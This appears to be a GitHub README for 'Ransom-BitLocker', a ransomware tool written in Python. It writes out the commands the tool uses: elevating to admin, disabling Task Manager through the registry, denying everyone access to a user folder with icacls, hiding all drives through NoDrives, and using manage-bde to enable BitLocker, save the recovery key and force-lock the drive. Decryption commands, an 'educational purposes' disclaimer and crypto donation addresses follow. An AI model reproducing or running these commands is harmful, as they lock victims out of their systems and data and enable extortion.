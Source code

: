 <div align="center">
  <h1><b>Ransom-BitLocker (Encryption & Decryption) 🔐</b></h1>
  <img src="Bitlocker.png" alt="BitLocker" width="300">
</div>

## Requirements
- **Python Version**: 3.11.4 (Version I'm using)
- **Dependencies**: Install the required Python package using
  ```bash
  pip install requests

## Run Command
- Make sure to run with admin privileges for cmd or Add this code at the top of `EncryptionBitLocker.py` and `DecryptionBitLocker.py` to ensure admin privileges:
  ```python
  def run_as_admin():
      if ctypes.windll.shell32.IsUserAnAdmin():
          return
      else:
          ctypes.windll.shell32.ShellExecuteW(None, "runas", sys.executable, __file__, None, 1)
          sys.exit()
  run_as_admin()
  
**Run Encrypt**:
 - ```cmd
  python EncryptionBitLocker.py
  ```
**Run Decrypt**: 
- ```cmd
python DecryptionBitLocker.py
```
## Information About Encryption
1. **Disable TaskManager**  
   - **Note**: Disable TaskManager immediately (Return `1` to disable)  
     ```cmd
     reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System /v DisableTaskMgr /t REG_DWORD /d 1 /f
     ```

2. **Lock User Folder**  
   - **Note**: Deny all access (read, write, delete, etc.) to the folder `folder_path`  
     ```cmd
     icacls folder_path /deny everyone:(OI)(CI)F
     ```

3. **Hide All Drives**  
   - **Drive Values**: A:1 - B:2 - C:4 - D:8 - E:16 - F:32 - G:64 - H:128 - I:256 - J:512 - K:1024 - L:2048 - M:4096 - N:8192 - O:16384 - P:32768 - Q:65536 - R:131072 - S:262144 - T:524288 - U:1048576 - V:2097152 - W:4194304 - X:8388608 - Y:16777216 - Z:33554432  
   - **Note**: `67108863` is the total parameters of all drives that need to be hidden  
     ```cmd
     reg add HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoDrives /t REG_DWORD /d 67108863 /f
     ```

4. **Generate Recovery Key and Lock Drive**  
   - **Turn on BitLocker and save the recovery key**:  
     ```cmd
     manage-bde -on {drive_letter}: -rp -used > {file_path}
     ```  
   - **Lock the drive and disconnect other programs using that drive**:  
     ```cmd
     manage-bde -lock {drive_letter}: -ForceDismount
     ```

## Information About Decryption
1. **Enable TaskManager**  
   - **Note**: Enable TaskManager immediately (Return `0` to enable)  
     ```cmd
     reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System /v DisableTaskMgr /t REG_DWORD /d 0 /f
     ```

2. **Unlock User Folder**  
   - **Note**: Allow all access (read, write, delete, etc.) to the folder `folder_path`  
     ```cmd
     icacls folder_path /remove:d everyone
     ```

3. **Show All Drives**  
   - **Drive Values**: A:1 - B:2 - C:4 - D:8 - E:16 - F:32 - G:64 - H:128 - I:256 - J:512 - K:1024 - L:2048 - M:4096 - N:8192 - O:16384 - P:32768 - Q:65536 - R:131072 - S:262144 - T:524288 - U:1048576 - V:2097152 - W:4194304 - X:8388608 - Y:16777216 - Z:33554432  
   - **Note**: `0` to show all drives (remove hiding)  
     ```cmd
     reg add HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoDrives /t REG_DWORD /d 0 /f
     ```

4. **BitLocker Decryption**  
   - **Unlock BitLocker encrypted `{drive_letter}` drive using recovery password `{recovery_key}`**:  
     ```cmd
     manage-bde -unlock {drive_letter}: -RecoveryPassword {recovery_key}
     ```  
   - **Turn off BitLocker encryption on drive `{drive_letter}`**:  
     ```cmd
     manage-bde -off {drive_letter}
     ```
## License
This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

## Disclaimer
This project is intended solely for **educational and research purposes**. It provides tools and examples for understanding BitLocker encryption and decryption mechanisms. **Do not use this project for any malicious or unauthorized activities**, as such actions may violate applicable laws and regulations.

The author is not responsible for any damage, data loss, or legal consequences resulting from the use or misuse of this project. Always test and validate the code in a controlled, secure environment before applying it to critical systems. Ensure you have proper authorization and backups before performing any encryption or decryption operations.

## Donate ⭐
- **USDT (TRC-20)**: `TCLCdvvvgy6Pbj5VnTzaYBwGKzBDyBEyGL`
- **BTC**: `3EALRZzA5vp7i6kXhELTujphiJC4WwZESF`
